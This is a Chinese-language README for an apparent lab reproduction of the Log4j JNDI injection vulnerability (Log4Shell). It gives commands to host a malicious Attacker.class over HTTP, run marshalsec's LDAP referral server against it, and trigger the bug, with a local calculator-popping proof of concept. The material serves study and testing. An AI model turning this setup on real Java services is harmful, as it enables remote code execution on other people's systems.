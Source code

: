 # log4j jndi 注入漏洞复现

[English](https://github.com/Cyronlee/log4j-rce/blob/main/README.md)

## 准备

`remote/Attacker.class`使用`Java 1.8.0_292`编译

版本不同的朋友可以自己用`javac Attacker.java`编译

## 复现步骤

复现一共需要启动3个进程，成功触发会打印`Constructor`并自动打开计算器

### 1 攻击者服务

使用`python`托管`Attacker.class`

```
cd remote

python -m http.server 8888
```

### 2 jndi转发

使用`marshalsec`工具转发jndi请求到攻击者服务

```
git clone git@github.com:mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Attacker"
```

### 3 漏洞触发

使用命令行或IDE运行`src/main/java/LogService.java`


